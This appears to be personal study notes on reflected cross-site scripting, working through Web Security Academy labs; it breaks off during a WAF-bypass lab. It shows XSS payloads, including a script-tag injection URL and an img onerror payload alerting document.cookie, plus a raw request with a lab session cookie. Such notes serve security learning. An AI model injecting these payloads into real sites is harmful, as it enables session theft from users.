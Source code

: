 ####  What is reflected cross-site scripting?
Reflected XXS arises when an application recieves data in an HTTP request and includes that data within the immediate repsonse   
in an unsafe way.  

Suppose a website has a search fucntion which recieved the user suppiled search term in a url parameter 
>https://insecure-website.com/search?term=gift

The application echoes the supplied search term in the response to this URL 
><p>You searched for: gift</p>

Assuming the application doesn't perform any other processing of the data, attackers can construct an attack like this. 
>https://insecure-website.com/status?message=<script>/*+Bad+stuff+here...+*/</script>

***
#### Lab: Reflected XSS into HTML context with nothing encoded
This lab contains a stored cross-site scripting vulnerability in the comment functionality. To solve this lab, submit a comment that calls the alert function when the blog post is viewed.
> web-security-academy.net/?search=<script>alert(1)</script>

***
#### Lab: Reflected XSS into HTML context with most tags and attributes blocked
This lab contains a reflected cross-site scripting vulnerability in the search functionality but uses a web application firewall (WAF) to protect against common XSS vectors. To solve the lab, perform a cross-site scripting attack that bypasses the WAF and alerts document.cookie. 

Observe this payload get blocked 
>Inject a standard XSS payload such as: <img src=1 onerror=alert(document.cookie)>

Get request to trouble shoot to see which tags are blocked 
>GET /?search=%3Cimg+src%3D1+onerror%3Dalert%28document.cookie%29%3E HTTP/1.1
>Host: ac5f1f4e1edda1b5810d0d0f00e60028.web-security-academy.net
>User-Agent: Mozilla/5.0 (X11; Linux i686; rv:52.0) Gecko/20100101 Firefox/52.0
>Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
>Accept-Language: en-US,en;q=0.5
>Accept-Encoding: gzip, deflate
>Referer: https://ac5f1f4e1edda1b5810d0d0f00e60028.web-security-academy.net/
>Cookie: session=FkSFLXR0PyX1JqWdIIMiUQmt4O97Yg6M
>Connection: close
>Upgrade-Insecure-Requests: 1



